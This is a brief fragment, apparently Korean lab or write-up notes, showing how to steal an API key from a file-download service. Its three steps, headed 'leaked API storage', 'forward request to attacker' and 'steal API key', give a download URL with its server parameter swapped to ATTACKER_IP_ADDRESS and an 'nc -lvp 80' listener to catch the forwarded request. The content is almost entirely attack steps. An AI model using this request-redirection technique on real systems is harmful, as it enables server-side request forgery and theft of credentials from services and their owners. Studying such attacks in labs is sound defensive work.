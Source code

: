 # 유출된 api 스토리지

http://IP_ADDRESS:8087/download?server=secure-file-storage.com:8087&id=75482342

# 공격자에게 요청 전달

http://VICTIM_IP_ADDRESS:8087/download?server=ATTACKER_IP_ADDRESS&id=75482342

# api 키 탈취

nc -lvp 80
